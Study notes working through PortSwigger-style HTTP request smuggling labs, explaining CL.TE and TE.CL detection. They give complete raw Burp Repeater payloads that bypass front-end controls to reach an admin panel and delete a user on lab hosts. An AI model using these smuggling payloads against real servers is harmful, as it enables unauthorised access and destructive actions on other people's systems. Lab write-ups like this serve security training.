 # HTTP Request Smuggling Notes

You need to include the trailing sequence `\r\n\r\n` in burp following the 0 in requests using TE.CL

In addition, in burp uncheck the `Update Content-Length` header

## Methodology

### CL.TE example test

Example request to test for CL.TE

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Content-Length will be forwarded as it fits correctly, omitting the X. Then the Transfer-Encoding of the backend will process the first chunk (The 1, and A), then come to the X and awai for the next chunk to arrive causing a time delay.

### TE.CL Example test

Example request to test for TE.CL

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

The transfer encoding header gets checked and only passes part of the request, omitting the X. The back-end server uses the `Content-Length` header, expects more content in the message body and waits causing the time delay to detect.

## Labs Walkthrough

### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Send this in repeater twice, to get a smuggle in and get a 404 error

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

Send this twice

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

- try to go to /admin
- use repeater and issue the following request twice

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

- the request gets denied due to not having the `Host:Localhost` header
- send the below requst twice

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

- the request was blocked due to the second request's Host header conflicting with the smuggled Host header.
- now do this so that the second requests headers are appened to the smuggled request body instead, and send twice

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

- you can now access the admin panel, craft the delection of carlos like so:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

- similar to above go to /admin see that you're blocked, so send blow twice

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

**You need to include the trailing sequence \r\n\r\n following the final 0**

- make sure to include the `Host:localhost` header

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

- now delete carlos

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### Exploiting HTTP request smuggling to reveal front-end request rewriting
















